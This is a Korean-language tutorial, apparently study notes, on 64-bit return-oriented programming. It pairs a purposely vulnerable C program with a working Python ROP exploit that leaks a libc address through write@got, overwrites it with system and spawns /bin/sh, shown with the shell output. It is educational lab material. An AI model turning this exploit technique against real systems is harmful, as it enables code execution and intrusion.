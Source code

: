 # 64bit ROP
* 64비트 아키텍쳐에서는 함수의 인자를 레지스터와 스택에 저장해 전달한다.
* 예제1
``` C
// gcc -o call64 call64.c 
#include <stdio.h>
int main()
{
	printf("%d + %d = %d\n %d + %d = %d\n",1,2,3,4,5,9);
	return 0;
}
```
```
$ gdb call64
(gdb) disas main
Dump of assembler code for function main:
   0x0000000000400526 <+0>:	push   rbp
   0x0000000000400527 <+1>:	mov    rbp,rsp
   0x000000000040052a <+4>:	sub    rsp,0x8
   0x000000000040052e <+8>:	push   0x9
   0x0000000000400530 <+10>:	mov    r9d,0x5
   0x0000000000400536 <+16>:	mov    r8d,0x4
   0x000000000040053c <+22>:	mov    ecx,0x3
   0x0000000000400541 <+27>:	mov    edx,0x2
   0x0000000000400546 <+32>:	mov    esi,0x1
   0x000000000040054b <+37>:	mov    edi,0x4005f4
   0x0000000000400550 <+42>:	mov    eax,0x0
   0x0000000000400555 <+47>:	call   0x400400 <printf@plt>
(gdb) x/s 0x4005f4
0x4005f4:	"%d + %d = %d\n %d + %d = %d\n"
```
printf 함수 호출 이전에 인자를 각각 레지스터와 스택에 넣고 호출한다. 디스어셈블리 결과를 보면 64비트에서 함수가 호출될 때 전달되는 인자는 다음과 같다.      
![image](https://user-images.githubusercontent.com/59531805/79732081-26bee380-832e-11ea-8386-f2910251b517.png)   
rdi, rsi, rdx, rcx, r9, r9 레지스터를 전부 사용하면 다음 인자부터는 스택에 저장한다.
64비트 아키텍쳐에서는 pop과 같은 명령어를 통해 함수의 인자를 전달하는 방법으로 ROP를 할 수 있다.
* 예제2
``` C
// gcc -o rop64 rop64.c -fno-stack-protector
#include <stdio.h>
#include <unistd.h>
void gadget() {
	asm("pop %rdi");
	asm("pop %rsi");
	asm("pop %rdx");
	asm("ret");
}
int main()
{
	char buf[256];
	write(1, "Data: ", 6);
	read(0, buf, 1024); 
	return 0;
}
```
``` python
# rop64.py
import struct
import subprocess
import os
import pty
import time
def readline(fd):
  res = ''
  try:
    while True:
      ch = os.read(fd, 1)
      res += ch
      if ch == '\x20':
        return res
  except:
    raise
def read(fd, n):
  return os.read(fd, n)
def writeline(proc, data):
  try:
    proc.stdin.write(data + "\n")
  except:
    raise
def p64(val):
  return struct.pack("<Q", val)
def u64(data):
  return struct.unpack("<Q", data)[0]
out_r, out_w = pty.openpty()
s = subprocess.Popen("./rop64", stdin=subprocess.PIPE, stdout=out_w)
print `read(out_r, 6)`
# write(1, 0x601018, 8)
payload  = "A"*264         # buf padding
payload += p64(0x40056a)   # pop rdi; pop rsi; pop rdx; ret
payload += p64(1)          # fd
payload += p64(0x601018)   # write@got
payload += p64(8)          # 8 
payload += p64(0x400430)   # write_plt 
# read(0, 0x601018, 16)
payload += p64(0x40056a)   # pop rdi; pop rsi; pop rdx; ret
payload += p64(0)          # fd
payload += p64(0x601018)   # write@got
payload += p64(16)          # 8
payload += p64(0x400440)   # read@plt
# write(0x601020,0,0)
payload += p64(0x40056a)   # pop rdi; pop rsi; pop rdx; ret
payload += p64(0x601020)   # /bin/sh
payload += p64(0)          # 0
payload += p64(0)          # 0
payload += p64(0x400430)   # write@plt
writeline(s, payload)
```
rop64.c에는 스택 버퍼 오버플로우 취약점이 존재한다.
익스플로잇의 편의를 위해 rdi, rsi, rdx 레지스터에 각각 원하는 값을 전달할 수 있는 ROP 코드 가젯을 제공했다.
공격 코드를 작성하기에 앞서 objdump를 사용하여 pop rdi; pop rsi; pop rdx; ret 코드 가젯의 주소를 알아내야 한다.
```
$ objdump -d rop64 | grep "gadget" -A6
0000000000400566 <gadget>:
  400566:	55                   	push   %rbp
  400567:	48 89 e5             	mov    %rsp,%rbp
  40056a:	5f                   	pop    %rdi
  40056b:	5e                   	pop    %rsi
  40056c:	5a                   	pop    %rdx
  40056d:	c3                   	retq
  ```
해당 코드 가젯은 0x40056a주소에 존재한다. 찾은 코드 가젯을 이용해 write 함수를 호출한 뒤 write@got에 저장되어 있는 값을 출력해서 라이브러리 주소를 알아낸다.
이후, 알아낸 라이브러리 주소를 통해 write@got를 system 함수로 덮어쓰고 "/bin/sh" 문자열을 입력한다.
최종적으로 write 함수를 호출하고 "/bin/sh" 문자열의 주소인 0x601020를 첫 번째 인자로 전달하면 셸을 획득할 수 있다.   
라이브러리의 베이스 주소와 system 함수 주소를 계산하기 위해 readelf를 사용하여 오프셋을 알아내야 한다.
```
$ readelf -a /lib/x86_64-linux-gnu/libc.so.6 | grep "write"
  W (write), A (alloc), X (execute), M (merge), S (strings), l (large)
    99: 00000000000746c0   466 FUNC    GLOBAL DEFAULT   13 _IO_wdo_write@@GLIBC_2.2.5
   169: 00000000000f72b0    90 FUNC    WEAK   DEFAULT   13 __write@@GLIBC_2.2.5
   287: 000000000007a390   269 FUNC    GLOBAL DEFAULT   13 _IO_do_write@@GLIBC_2.2.5
   491: 0000000000108040    36 FUNC    GLOBAL DEFAULT   13 process_vm_writev@@GLIBC_2.15
   493: 00000000000f5ac0    96 FUNC    WEAK   DEFAULT   13 __pwrite64@@GLIBC_2.2.5
   851: 00000000000fcfd0    90 FUNC    WEAK   DEFAULT   13 writev@@GLIBC_2.2.5
  1252: 00000000000f5ac0    96 FUNC    GLOBAL DEFAULT   13 __libc_pwrite@@GLIBC_PRIVATE
  1513: 00000000000fd0e0   170 FUNC    GLOBAL DEFAULT   13 pwritev@@GLIBC_2.10
  1565: 0000000000107700    41 FUNC    GLOBAL DEFAULT   13 eventfd_write@@GLIBC_2.7
  1580: 000000000006e6e0   456 FUNC    WEAK   DEFAULT   13 fwrite@@GLIBC_2.2.5
  1855: 00000000000fd0e0   170 FUNC    GLOBAL DEFAULT   13 pwritev64@@GLIBC_2.10
  2005: 0000000000078b70   171 FUNC    GLOBAL DEFAULT   13 _IO_file_write@@GLIBC_2.2.5
  2025: 000000000006e6e0   456 FUNC    GLOBAL DEFAULT   13 _IO_fwrite@@GLIBC_2.2.5
  2044: 00000000000f5ac0    96 FUNC    WEAK   DEFAULT   13 pwrite@@GLIBC_2.2.5
  2103: 00000000000781a0   106 FUNC    GLOBAL DEFAULT   13 fwrite_unlocked@@GLIBC_2.2.5
  2112: 00000000000f5ac0    96 FUNC    WEAK   DEFAULT   13 pwrite64@@GLIBC_2.2.5
  2159: 00000000000f72b0    90 FUNC    WEAK   DEFAULT   13 write@@GLIBC_2.2.5
$ readelf -a /lib/x86_64-linux-gnu/libc.so.6 | grep "system"
   225: 0000000000138810    70 FUNC    GLOBAL DEFAULT   13 svcerr_systemerr@@GLIBC_2.2.5
   584: 0000000000045390    45 FUNC    GLOBAL DEFAULT   13 __libc_system@@GLIBC_PRIVATE
  1351: 0000000000045390    45 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.2.5
  ```
라이브러리의 write와 system 함수 오프셋은 각각 0xf72b0, 0x45390인 것을 알아냈다.   
출력된 write@got 값과 라이브러리의 write 함수 오프셋을 계산하여 라이브러리의 베이스 주소를 알아내고, system 함수 오프셋과 덧셈 연산을 하여 system 함수 주소를 알아냈다.
write@got에 입력받을 때 system 함수 주소와 "/bin/sh" 문자열을 입력하고, write 함수를 호출할 때 인자로 0x601020 주소를 전달하면 셸을 획득할 수 있다.
```
$ python ex.py
'Data: '
0x7f98a275c2b0
$ id
uid=1001(theori) gid=1001(theori) groups=1001(theori)
```
